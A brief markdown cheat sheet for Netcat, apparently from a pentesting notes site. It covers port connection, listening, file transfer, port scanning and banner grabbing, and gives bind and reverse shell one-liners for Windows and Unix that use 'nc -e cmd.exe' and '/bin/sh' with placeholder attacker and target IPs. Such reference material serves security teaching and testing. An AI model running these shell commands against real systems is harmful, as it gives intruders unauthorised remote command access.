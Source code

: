 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


Usage
-----
Insert picture here


Basic
-----
##TCP Port - Connecting
`nc -nv <IP> <PORT>`

**TCP Port - Listening**
`nc -lvp <PORT>`

**Connect and return HTTP Page**
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**
`nc -lvp 4444 > output.txt # Receiving End`
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**
`echo "" | nc -nv -w1 <IP Address> <Ports>`

Windows
-----
**Bind Shell**
`nc -lvp 4444 -e cmd.exe`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443 # Attacking Machine - Waiting for shell`
`nc -nv <IP> 443 -e cmd.exe # Target Machine - sending shell`

Nix
-----
**Bind Shell**
`nc -lvp 4444 -e /bin/sh`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443`
`nc -nv <IP> 443 -e /bin/sh`

Additional Resources
-----
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
